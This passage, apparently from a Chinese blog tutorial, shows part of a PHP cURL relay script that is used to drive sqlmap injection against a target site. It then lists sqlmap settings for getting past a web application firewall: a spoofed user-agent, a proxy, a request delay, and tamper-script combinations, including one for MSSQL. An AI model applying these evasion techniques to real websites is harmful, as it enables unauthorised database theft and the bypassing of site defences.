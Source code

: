 ```
curl_setopt($ch, CURLOPT_POST, 1);    // post 提交方式
curl_setopt($ch, CURLOPT_POSTFIELDS, $params);
// 抓取URL并把它传递给浏览器 
$output = curl_exec($ch);
// 关闭cURL资源，并且释放系统资源
curl_close($ch);
$a = strlen($output);
//echo $a;
if($a==2846){
    echo "1";
}else{
    echo "2";
}
```

使用sqlmap进行注入

 首先注入我们的中转脚本

中转脚本通过获取的payload请求目标网站 <img alt="" src="https://img-blog.csdnimg.cn/b5570d9d2f7648789b21c521b04855c1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5riX6YCP5rWL6K-V6ICB6bifLeS5nemdkg==,size_19,color_FFFFFF,t_70,g_se,x_16"/>

成功跑出数据库

## sqlmap绕过WAF的思路总结

**1、设置请求头**

```
--user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

**2、设置代理**

```
--proxy=http://127.0.0.1:8080
```

**3、设置延迟**

```
--delay=1
```

**4、利用--tamper参数中的编码脚本**<br/> 常见编码搭配方式<br/> 普通tamper搭配方式:

```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

数据库为MSSQL的搭配方式:

```
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

